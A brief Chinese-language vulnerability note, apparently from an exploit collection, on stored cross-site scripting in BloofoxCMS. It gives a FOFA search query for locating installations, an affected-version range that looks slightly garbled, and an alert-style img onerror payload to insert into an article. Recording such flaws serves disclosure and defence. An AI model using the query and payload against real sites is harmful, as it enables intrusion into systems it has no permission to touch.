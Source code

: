 FOFA
----

    app="BloofoxCMS"

影響版本
--------

0.5.1.0 -.5.2.1

XSS
---

登錄有效的賬號，在添加文章的時候插入Payload發布，每次訪問均可觸發：

    <img src=# onerror=alert('xss')>